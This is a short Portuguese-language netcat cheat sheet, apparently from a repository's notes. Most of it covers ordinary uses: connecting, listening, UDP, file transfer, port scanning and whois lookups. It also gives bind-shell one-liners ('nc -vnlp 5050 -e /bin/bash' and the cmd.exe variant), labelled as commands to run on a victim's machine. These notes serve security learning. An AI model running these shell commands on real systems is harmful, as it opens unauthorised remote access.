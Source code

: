 # NC
Pode ser usado: nc | ncat | netcat.

nc ==> Executa o netcat.
nc -h ==> Help do netcat.
nc 172.16.1.4 110 ==> Conecta no IP 172.16.1.4 na porta 110 TCP.
nc www.grandbusiness.com.br 21 ==> Conecta ao site através da porta 21.
nc -v 172.16.1.4 ==> Verbose mode.
netstat -nlpt ==> Verifica portas abertas no sistema.
nc -vlp 5050 ==> -v [verbose mode], l [listening], p [port], abertura de porta.
nc -vlup 9000 ==> -v [verbose mode], l [listening], u [UDP], p [port], abertura de porta.
nc -u 127.0.0.1 9000 ==> Conecta na porta 9000 UDP no IP 127.0.0.1.
nc -vlp 80 < servidor.txt ==> Envia o arquivo "servidor.txt" na conexão.
nc -lnvp 5050 > ncat.exe ==> Envia tudo que chegar para o arquivo ncat.exe.
nc -vn 192.168.0.105 5050 < ncat.exe ==> Envia o arquivo "ncat.exe" na conexão.

nc -vnlp 5050 -e /bin/bash ==> Executa o /bin/bash
nc -vnlp 5050 -e cmd.exe ==> Executa o CMD
* Os dois comandos acima são um modelo de shell simples onde devem ser executadas na máquina da vítima.

Escaneando portas:  
``nc -vnz 172.16.1.5 19-30`` Será escaneado da porta 19 atá a 30.  
``nc -vnz 172.16.1.5 22`` Será escaneado somente a porta 22.

Vericando whois pelo NC:  
``nc -v 200.160.2.3 43  
globo.com``
* A porta 43 é utilizada pelo WHOIS.
* O IP 200.160.2.3 é do registro.br.
